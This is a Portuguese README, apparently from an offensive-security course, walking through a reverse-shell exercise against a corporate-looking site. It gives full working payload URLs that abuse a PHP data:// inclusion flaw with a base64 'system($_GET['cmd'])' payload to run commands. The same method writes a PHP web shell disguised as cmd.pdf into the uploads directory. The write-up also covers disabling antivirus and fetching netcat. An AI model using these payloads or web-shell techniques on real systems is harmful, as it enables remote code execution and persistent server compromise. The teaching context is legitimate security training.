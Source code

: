 # 🔍 Exploração do Site — 👨‍🔬 Penetratium ☢️ - 🧬 Team 📡

## 🔗 Materia Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress
- 🔍 **Tipo:** Shell Reversa 🕳️

---

- Script:
  - Saber o ip da sua MAQ
  - Desligar antivirus da maquina.
  - Baixar o nc pro win ( no meu caso {pc bugado}).
  - Escutar de um lado e mandar o sinal do outro.
  - Mandar sinal pela URL , ou upar arquivo.
  - Executar arquivo e receber o Sinal.

---

# Desligando Antivirus:
<p align="center">
  <img width="319" height="265" alt="image" src="https://github.com/user-attachments/assets/3f997066-36e2-418d-a67a-3317880f0224" />
</p>

<p align="center">
  <img width="589" height="982" alt="image" src="https://github.com/user-attachments/assets/ab971d68-deb8-46b2-b6e8-5791407107f9" />
</p>

# Baixando NC:win
<p align="center">
  <img width="383" height="332" alt="image" src="https://github.com/user-attachments/assets/b313b975-e39f-4e95-96be-c41b3380d39b" />
</p>

--- 
- https://github.com/diegocr/netcat/blob/master/nc.exe
<p align="center">
  <img width="522" height="512" alt="image" src="https://github.com/user-attachments/assets/e76a7de6-f0a2-494e-ac38-2a156713142f" />
</p>

---
- Descobri onde se encontra o banco de Dados da aplicação agora é so mandar um arquivo .pdf malicioso pra lá e executar

link : http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls%20-la%20/var/www/html/uploads
<p align="center">  
  <img width="472" height="150" alt="image" src="https://github.com/user-attachments/assets/9476b697-f51f-469b-86ef-0e02fc1fcd08" />
</p>

- esse arquivo Proposta de Atividade.pdf foi eu que enviei testando a pagina de upload
- Provando que aqui se instala o banco de dados da pagina

comando que envia pdf malicioso pro site 
```
  http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=echo%20%27%25PDF-1.4%0A%25%E2%E3%CF%D3%0A%0A%3C?  php%20echo%20%22TESTE%20FUNCIONOU%22%3B%20%3F%3E%27%20%3E%20%2Fvar%2Fwww%2Fhtml%2Fuploads%2Fteste.pdf

```
- testando se relamente funcionou : http://rh.businesscorp.com.br/uploads/teste.pdf
<p align="center">
  <img width="477" height="83" alt="image" src="https://github.com/user-attachments/assets/16a55f59-ce69-440a-b049-861819f3f9fe" />
</p>
---

- agora é so mandar um arquivo de uma prompt de comando .pdf , ou mandar um arquivo direto com o shell reverse

comando que envia o prompt de comando .pdf pro site : 

```
  http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=echo%20'%25PDF-1.4%0A%25%E2%E3%CF%D3%0A%0A%3C?    php%20echo%20%22%3Cform%20method%3DGET%3E%3Cinput%20type%3Dtext%20name%3Dcmd%20placeholder%3DDigite%20um%20comando%3E%3Cinput%20type%3Dsubmit%20value%3DExecutar%3E%3C%2Fform%3E%3Cpre%3E%22%3B%20if(isset(%24_GET%5B%22  cmd%22%5D))%20%7B%20system(%24_GET%5B%22cmd%22%5D)%3B%20%7D%20echo%20%22%3C%2Fpre%3E%22%3B%20%3F%3E'%20%3E%20%2Fvar%2Fwww%2Fhtml%2Fuploads%2Fcmd.pdf
```

- agora vamos acessa-lo como acessamos o arquivo teste: http://rh.businesscorp.com.br/uploads/cmd.pdf

<p align="center">
  <img width="488" height="132" alt="image" src="https://github.com/user-attachments/assets/ab571ec0-a668-4244-98ab-ffc7f5c209ec" />
</p>

- Temos um aprimoramento de CMD.










- aqui voce pode criar arquivos dar permissao e apaga-los uma falha gravissima
